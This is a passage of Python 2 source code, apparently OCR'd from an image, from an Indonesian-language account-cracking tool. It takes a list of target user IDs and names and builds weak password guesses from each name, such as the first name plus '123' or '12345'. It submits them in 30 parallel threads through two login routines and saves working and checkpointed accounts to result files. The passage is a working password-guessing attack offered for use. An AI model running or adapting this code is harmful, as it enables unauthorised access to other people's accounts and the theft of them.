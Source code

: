             print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)

            with YayanGanteng(max_workers=30) as (__yayanXD__):

             for yntkts in self.id: # Yo Ndak Tau Kok Tanya Saia

                    try:

                        name, uid = yntkts.split('<=>')

                        xz = name.split(' ')

                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:

                            pwx = [name, xz[0]+"123", xz[0]+"12345"]

                        else:

                            pwx = [name, xz[0]+"123", xz[0]+"12345"]

                        __yayanXD__.submit(self.__api__, uid, pwx)

                    except:

                        pass

            os.remove(self.apk)

            hasil(ok,cp)

        elif yan in ('2', '02'):

            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)

            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)

            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)

            with YayanGanteng(max_workers=30) as (__yayanXD__):

             for yntkts in self.id: # Yo Ndak Tau Kok Tanya Saia

                    try:

                        name, uid = yntkts.split('<=>')

                        xz = name.split(' ')

                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:

                            pwx = [name, xz[0]+"123", xz[0]+"12345"]

                        else:

                            pwx = [name, xz[0]+"123", xz[0]+"12345"]

                        __yayanXD__.submit(self.__mbasic__, uid, pwx)

                    except:

                        pass

            os.remove(self.apk)

            hasil(ok,cp)
